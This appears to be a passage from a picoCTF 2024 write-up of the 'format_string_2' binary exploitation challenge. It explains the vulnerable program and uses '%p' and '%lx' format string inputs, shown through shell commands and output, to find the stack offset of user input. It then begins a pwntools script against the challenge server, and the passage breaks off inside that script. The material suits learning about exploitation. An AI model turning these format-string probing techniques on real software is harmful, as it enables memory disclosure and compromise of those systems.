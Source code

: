 ```c
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

The program does the following:

- Prints some greeting text and ask us for input
- Reads 1024 bytes of input, stores it in `buf` and prints the buffer
- Checks if `sus` has changed to `flag` (from the initial `sus!`) then reads and prints the flag
- Else prints the hex-value of `sus` and ask us to do better

### Get the input offset

The offset of our input can be found manually by inputting a known string (`ABCDEFGH`) followed by a long string of items of the form `<offset>:%p<delimiter>`. Here I have used pipes (`|`) as delimiter.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_2]
└─$ python -c "print('ABCDEFGH|' + '|'.join(['%d:%%p' % i for i in range(1,20)]))" | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: ABCDEFGH|1:0x7fff00ef1480|2:(nil)|3:(nil)|4:0xa|5:0x400|6:0x7f33152777b0|7:0x7f33152a9ab0|8:0x7fff00ef1760|9:0x7f3315280fc8|10:0x1|11:0x7fff00ef1790|12:(nil)|13:0x7f3315277ca8|14:0x4847464544434241|15:0x3a327c70253a317c|16:0x7c70253a337c7025|17:0x253a357c70253a34|18:0x377c70253a367c70|19:0x70253a387c70253a
sus = 0x21737573
You can do better!
```

Offset 14 looks promising and is indeed the ASCII-version of our input (in reverse order due to endianness).

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_2]
└─$ echo '4847464544434241' | xxd -r -p | rev
ABCDEFGH 
```

We can also write a small python script with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html) to find the offset for us

```python
#!/usr/bin/python

from pwn import *

SERVER = 'rhea.picoctf.net'
PORT = 57654
MY_INPUT = 'ABCDEFGH'

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")

for i in range(1, 25):
    io = remote(SERVER, PORT)
    log.info(f"\n---------- Trying offset {i} ----------\n")
    io.sendlineafter(b"What do you have to say?\n", f"{MY_INPUT}%{i}$lx".encode('ascii'))
    out = io.recvlineS().split(':')[1].strip()[8:]
```